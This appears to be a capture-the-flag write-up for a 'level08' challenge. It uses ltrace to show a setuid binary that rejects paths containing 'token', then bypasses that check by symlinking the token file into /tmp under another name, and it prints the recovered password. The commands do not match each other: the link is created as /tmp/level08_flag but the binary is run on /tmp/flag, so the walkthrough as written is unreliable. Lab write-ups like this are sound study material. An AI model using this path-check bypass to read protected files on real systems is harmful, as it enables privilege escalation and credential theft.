 # level08 solution
Given setuid elf and token file with no permissions to read it. We can run setuid binary with ltrace to get the idea of what it's doing:

    __libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
    strstr("token", "token")                                   = "token"
    printf("You may not access '%s'\n", "token"You may not access 'token'
    )               = 27
    exit(1 <unfinished ...>
    +++ exited (status 1) +++

This binary checks for presence of word 'token' in provided path. We can bypass this check by simply creating symlink to this file with name that does not contain 'token' word:

    cd /tmp
    ln -s /home/user/level08/token level08_flag
    cd -

Then we can run program with provided symlink:

    ./level08 /tmp/flag
    quif5eloekouj29ke0vouxean

Token file contains password for flag08 user.

